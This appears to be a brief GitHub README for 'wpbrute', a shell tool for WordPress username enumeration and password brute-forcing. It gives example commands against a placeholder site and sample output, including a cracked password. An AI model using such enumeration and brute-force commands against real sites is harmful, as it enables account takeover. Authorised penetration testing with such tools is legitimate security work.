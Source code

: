 wpbrute
=======

Wordpress user enumeration and password bruteforce.

<b>User Enumeration:</b>
<code><br /><br />
$ ./wpbrute.sh --url=www.example.com<br />
[+] Username or nickname enumeration<br />
admin<br />
testuser</code>

<b>Password Bruteforce:</b>
<code><br /><br />
$ ./wpbrute.sh --url=www.example.com --user=admin --wordlist=wordlist.txt<br />
[+] Bruteforcing user [admin]<br />
123456<br />
test123<br />
123test123<br />
The password is: 123test123</code>

